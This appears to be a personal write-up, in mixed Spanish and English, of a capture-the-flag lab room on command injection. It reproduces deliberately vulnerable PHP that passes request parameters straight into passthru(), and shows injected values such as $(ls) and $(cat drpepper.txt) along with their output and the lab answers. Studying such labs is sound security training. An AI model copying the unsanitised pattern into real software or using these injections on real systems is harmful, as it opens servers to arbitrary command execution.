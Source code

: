 ##  Task 9 - 3. Injection 

- SQL injection
- Command Injection

##  Task 10 3.1. Command Injection

- vamos al sitio


- existe una inyecion de comando que podemos aprovechar
```php
<?php
    if (isset($_GET["mooing"])) {
        $mooing = $_GET["mooing"];
        $cow = 'default';

        if(isset($_GET["cow"]))
            $cow = $_GET["cow"];
        
        passthru("perl /usr/bin/cowsay -f $cow $mooing");
    }
?>
```

#### What strange text file is in the website's root directory?
	drpepper.txt

- cuaquier comando enclosado se ejecuta
```
┌──(kali㉿kali)-[/usr/games]
└─$ echo "hola $(whoami)"                   
hola kali

```
 - abusamos de eso y en la interfaz ejecutamos comandos para dar con la bandera
```
$(ls)
css drpepper.txt index.php js

$(cat drpepper.txt)
_________________________________________ 
/ I'm sorry Mario, but the Dr. Pepper you \
\ are looking for is in another webapp.   /
 ----------------------------------------- 
```

#### How many non-root/non-service/non-daemon users are there?

- cuentas que no sean ni root, ni de servicio, ni demonios
	0
